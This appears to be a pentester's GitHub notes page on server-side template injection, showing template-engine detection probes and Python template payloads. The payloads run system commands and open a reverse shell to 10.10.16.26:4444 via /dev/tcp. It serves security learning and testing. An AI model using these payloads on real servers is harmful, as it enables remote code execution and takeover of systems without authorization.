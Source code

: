# Plaintext Context SSTI.
## Detection.
The first task we have to do to detect a SSTI vulnerability is to check which is the template that is being used by the server. After that we have two possible ways:
- We extract the server template so we know exactly the programming lenguaje that is being used by the server.
- We have to try the next expressions to realize which one of them are interpreted so we can exactly know which programming lenguage we have to use to deploy our payload.
```javascript
{{7*7}} 
${{7*7}} 
${7*7} 
#{7*7} 
<%= 7*7 %>
```
### Case 1:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/86a348ed-e521-412d-8e41-3a0b3877dce6" width="600"><br />
### Case 2: 
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/bde33c1d-911c-43da-ae03-ddd2b46bdce1" width="500">
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a9136b41-09cb-48fd-bc6d-40848bad3d96" width="500">

After that we can check some resources as 1- [PayloadsAllTheThings-SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) or 2- [Hacktricks-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) to obtain a good payload to use in the target server.

## Payload examples.
Here are some payload examples that in my experience usually work, however, they sometimes may not work properly so we have to check the previous resources to see if we can obtain a useful payload.
### Python.
#### Executing a command:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
#### Obtaining a shell:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.26/4444 0>&1" ').read() }}
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a6610bf1-9f80-454c-9099-3adee2423d49" width="600">

<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/0bbe557f-a638-43fe-ac61-b39e563d3e83" width="500">





